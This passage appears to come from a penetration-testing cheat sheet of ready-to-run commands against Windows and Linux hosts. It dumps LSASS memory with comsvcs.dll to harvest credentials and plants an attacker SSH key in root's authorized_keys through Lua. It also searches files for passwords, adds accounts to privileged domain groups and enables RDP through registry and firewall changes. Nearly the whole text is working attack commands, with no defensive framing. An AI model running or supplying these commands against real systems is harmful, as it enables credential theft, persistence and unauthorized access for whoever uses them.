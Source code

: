 ### Lsass

#### Dump

```c
C:\> tasklist
C:\> rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump 688 C:\Users\Administrator\Documents\lsass.dmp full
```

### Lua

#### Code Execution

```c
file = io.open("/root/.ssh/authorized_keys", "w")
file:write("ssh-rsa AAAAB3N--- snip ---YM5syQ==")
file:close()
```

### machinectl

```c
$ machinectl shell --uid=root
```

### Microsoft Windows

#### Common Commands

```c
C:\> tasklist /SVC
C:\> sc query
C:\> sc qc <SERVICE>
C:\> netsh firewall show state
C:\> schtasks /query /fo LIST /v
C:\> findstr /si password *.xml *.ini *.txt
C:\> dir /s *pass* == *cred* == *vnc* == *.config*
C:\> accesschk.exe -uws "Everyone" "C:\Program Files"
C:\> wmic qfe get Caption,Description,HotFixID,InstalledOn
C:\> driverquery.exe /v /fo csv | ConvertFrom-CSV | Select-Object 'Display Name', 'Start Mode', Path
```

#### Adding Users to Groups

```c
C:\> net user <USERNAME> <PASSWORD> /add /domain
C:\> net group "Exchange Windows Permissions" /add <USERNAME>
C:\> net localgroup "Remote Management Users" /add <USERNAME>
```

#### Enable Remote Desktop (RDP)

```c
C:\> reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
C:\> netsh advfirewall firewall set rule group="remote desktop" new enable=yes
```
